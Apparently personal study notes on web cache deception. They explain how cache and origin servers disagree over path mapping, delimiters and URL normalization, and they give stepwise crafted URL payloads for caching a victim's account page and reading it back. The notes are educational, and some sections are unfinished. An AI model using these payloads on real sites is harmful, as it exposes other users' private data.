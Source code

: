 # Web cache deception

<details>

<summary>Introduction</summary>

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

</details>

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:purple;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting `GET`, `HEAD`, or `OPTIONS` methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:purple;">Static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:purple;">Path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (REST-style vs traditional URL)</summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Check if origin server uses REST-style
/my-account/abc    # The response is identical to the original -> REST-style

# 4. Check if cache server uses traditional URL & explotation
/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://site.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
```

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:purple;">Delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account         # "X-Cache: miss"
/my-account;abc.js  # "X-Cache: miss"
# So the cache thinks "/my-account" is different from "/my-account;abc.js"

# 5. Exploitation
/my-account;abc.js # 1 time "X-Cache: miss"
/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://site.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
```

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:purple;">Delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:purple;">Static directory cache rules (with normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

```python
# 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
```

### <mark style="color:purple;">Normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

```python
# 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
# So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js"

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
# The origin server interprets the path as: /my-account
```

### <mark style="color:purple;">Normalization by the cache server</mark>

```python
# 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
```
